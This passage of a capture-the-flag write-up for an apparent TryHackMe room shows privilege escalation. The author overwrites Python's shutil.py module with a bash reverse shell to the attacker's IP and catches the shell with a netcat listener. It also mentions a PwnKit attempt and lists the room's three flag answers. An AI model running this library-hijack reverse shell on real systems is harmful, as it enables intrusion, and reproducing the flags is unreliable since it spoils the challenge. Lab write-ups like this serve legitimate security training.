   ```
  root        2411  0.0  0.3   9584  3156 pts/0    S    21:19   0:00 sudo -u death /usr/bin/python3 /home/death/getDreams.py
  death       2413  0.0  1.4  26016 13712 pts/0    S    21:19   0:00 /usr/bin/python3 /home/death/getDreams.py
  death       2440  0.0  0.7  15884  7236 pts/0    S+   21:21   0:00 python3 -c import pty;pty.spawn("/bin/bash");
  morpheus    2582  0.0  0.0   2616   596 ?        Ss   21:37   0:00 /bin/sh -c /usr/bin/python3.8 /home/morpheus/restore.py
  morpheus    2584  0.0  0.9  15768  9512 ?        S    21:37   0:00 /usr/bin/python3.8 /home/morpheus/restore.py
  morpheus    2589  0.0  0.0   2616   528 ?        Ss   21:38   0:00 /bin/sh -c /usr/bin/python3.8 /home/morpheus/restore.py
  morpheus    2591  0.0  0.9  15768  9536 ?        S    21:38   0:00 /usr/bin/python3.8 /home/morpheus/restore.py
  ```

- BOOOOOOOOOOOOOM! You can also see that I tried `PwnKit` but it did nothing LULZ. Now comes the easy part, add a reverse shell to `shutil` module and start a listener. After a minute you will get a shell as `morpheus`.

  ```
  death@ip-10-10-60-142:/home/morpheus$ echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/[YOUR-THM-IP]/5555 0>&1'\")" > /usr/lib/python3.8/shutil.py

  nc -lvnp 5555
  listening on [any] 5555 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.60.142] 40808
  bash: cannot set terminal process group (2685): Inappropriate ioctl for device
  bash: no job control in this shell
  morpheus@ip-10-10-60-142:~$ whoami
  whoami
  morpheus
  morpheus@ip-10-10-60-142:~$ id
  id
  uid=1002(morpheus) gid=1002(morpheus) groups=1002(morpheus),1003(saviors)
  ```

- Read the last flag and cya in the next one!

---

## 🏁 Flags

- **Lucien Flag**: `THM{TH3_L1BR4R14N}`
- **Death Flag**: `THM{1M_TH3R3_4_TH3M}`
- **Morpheus Flag**: `THM{DR34MS_5H4P3_TH3_W0RLD}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Getting my way around the CTF.`
